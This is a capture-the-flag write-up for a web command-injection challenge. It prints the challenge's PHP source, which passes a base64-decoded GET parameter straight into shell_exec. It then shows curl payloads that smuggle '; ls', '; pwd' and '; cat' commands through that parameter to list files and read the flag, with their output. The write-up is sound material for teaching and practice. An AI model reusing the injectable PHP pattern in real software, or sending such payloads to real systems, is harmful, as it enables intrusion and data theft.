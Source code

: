 # Command Injection 1
Web

## Challenge 

Pretty much another command injection challenge. Google about command injection?

http://challs.hats.sg:1337/

Flag format: flag{.+}

Challenge by: Gladiator

## Hint

## Solution

http://challs.hats.sg:1337/

	ONLY BASE 64! COMMANDO
	GET me a 'cmd'
	You can also GET 'SRC' if you want to..

http://challs.hats.sg:1337/?SRC

	<!DOCTYPE html>
	<html>
	<?php 
	    if(isset($_GET['SRC'])){
	        show_source("index.php");
	        die();
	    }
	    $cmd = base64_decode($_GET['cmd']);
	    if(!$cmd){
	        echo "ONLY BASE 64!";
	    }
	    else{
	        $output = shell_exec("echo ". $cmd);
	        echo "<pre>$output</pre>";    
	    }

	?>
	<head>
	    <title></title>
	</head>
	<body>
	    COMMANDO<br>
	    GET me a 'cmd'<br>
	    You can also GET 'SRC' if you want to..
	</body>
	</html>

Do some payloads

	$ curl -s http://challs.hats.sg:1337/?cmd=$(echo 'HELLO WORLD' | base64) | html2text
	HELLO WORLD

	$ curl -s http://challs.hats.sg:1337/?cmd=$(echo '; ls -la' | base64) | html2text
	total 12
	drwxrwxr-x 1 root root 4096 Sep  6 18:42 .
	drwxrwxr-x 1 root root 4096 Mar 27 01:00 ..
	-rwxrwxr-x 1 root root  388 Sep  6 17:31 index.php

	$ curl -s http://challs.hats.sg:1337/?cmd=$(echo '; pwd' | base64) | html2text
	/var/www/html

	$ curl -s http://challs.hats.sg:1337/?cmd=$(echo '; ls ../../../flag' | base64) | html2text
	flag.txt

	$ curl -s http://challs.hats.sg:1337/?cmd=$(echo '; cat ../../../flag/flag.txt' | base64) | html2text
	flag{there_was_one_night_there_was_no_light}

## Flag

	flag{there_was_one_night_there_was_no_light}
